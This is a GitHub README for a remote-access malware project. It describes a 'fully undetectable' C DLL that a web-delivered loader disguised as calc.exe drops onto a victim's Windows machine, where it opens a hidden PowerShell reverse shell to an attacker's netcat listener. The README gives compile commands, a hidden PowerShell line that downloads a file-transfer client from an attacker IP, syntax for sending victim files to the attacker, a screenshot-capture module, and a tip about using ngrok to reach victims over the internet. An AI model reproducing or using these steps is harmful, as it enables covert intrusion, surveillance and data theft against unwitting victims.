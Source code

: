 # DLLREVERSESHELL
<b>A CUSTOM CODED FUD DLL, CODED IN C , WHEN LOADED , VIA A DECOY WEB-DELIVERY MODULE( FIRING A DECOY PROGRAM), WILL GIVE A REVERSE SHELL (POWERSHELL) FROM THE VICTIM MACHINE TO THE ATTACKER CONSOLE , OVER LAN AND WAN.
</b>

The project comprises of:


<p><b>. A custom C header file, mingwdll.h </b></p>
<p><b>. The DLL C code mingw_dll.c </b></p>
<p><b>. The Loader file loader.c , that will invoke a web delivery of the DLL ,to the target machine, load the DLL in the runtime, producing the decoy program for the victim on the foreground, and spawning a connect back reverse shell (powershell) to the attacker, in the back ground </b></p>

<p><b><i> Phase 1 : </b></i></p>

Place the mingwdll.h and mingw_dll.c in the same folder and compile using :

<b>i686-w64-mingw32-gcc -Wall -shared mingw_dll.c -o calc_helper.dll -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc </b>

This will create the FUD DLL <b> calc_helper.dll </b>

File Description:
<b> root@nautilus:~/Desktop/c_code/dll_rsh# file calc_helper.dll
calc_helper.dll: PE32 executable (DLL) (console) Intel 80386 (stripped to external PDB), for MS Windows
</b>

<p><b><i> Phase 2 : </b></i></p>
Compile the loader.c using <b> i686-w64-mingw32-gcc loader.c -o improved_calc.exe </b>
This will create the PE32 executable improved_calc.exe.

File Description:
<b>improved_calc.exe: PE32 executable (console) Intel 80386, for MS Windows </b>

When the file improved_calc.exe , it might initially throw a Dll load error, thus I have ensured that a second call to regsvr32 is made post a _sleep() function, to ensure the DLL load on runtime.

Post the DLL is loaded , it will fire the decoy , calc.exe and spawn a reverse shell, (netcat listener on port 8080 as defined in the header file { nc -lvp 8080 } ) 

Cheers

#Captain_Nemo

# DLLREVERSESHELL

<b><p>https://youtu.be/HR0C_2_UAT8</p></b>


# POST EXPLOITATION MODULE

I have added a post exploitation module for file transfer , from the Victim machine to the Attacker machine.

Compile the C program , ft_clie.c using 

<p><b>i686-w64-mingw32-gcc ft_clie.c -o client_ft.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
 </p></b>
 
 
 This is webdelivered to the victim , through the newly incorporated system() function call system("start powershell -windowstyle Hidden Invoke-WebRequest -Uri 'http://192.168.225.196/client_ft.exe' -OutFile 'client_ft.exe'"); , in loader.c 
 
 <p><b> 
  syntax to run client_ft.exe : 
  
  .\client_ft.exe ss.txt 192.168.225.196 4444
  
  or
  
  .\client_ft.exe filename attackerip attackerport
  
  from the reverse shell
  </p></b>
  
  <p><b>
  In the mean while , compile the serverfiletransfer.c using 
  gcc serverfiletransfer.c -o serv 
  
  Syntax: ./serv localattackerip chosenport
  or 
  ./serv 192.168.225.196 4444
  
 </p></b>
 
 <p>
 Once the reverse shell is obtained, ready the server using ./serv <localattackerip> <chosenport>  on a Linux terminal and on the Reverseshell , execute  .\client_ft.exe <filename> <attackerip> <attackerport> , to transfer files from the victim to the atacker machine. 
  This exploit can be leveraged to WAN using ngrok.
  </p>
  
  <b>https://youtu.be/KJOwew96pqw</b>
  
  # POST EXPLOITATION MODULE

<p><b>
The Screenshot module , (screenshot.cpp) , will take screenshots of the remote machine and the .bmp files can be transferred over lan / wan to the attacker machine.
</p></b>

<p><b>
 Compilation Instruction: i686-w64-mingw32-g++ screenshot.cpp -o ss.exe -static-libstdc++ -static-libgcc -lgdi32
 </p></b>
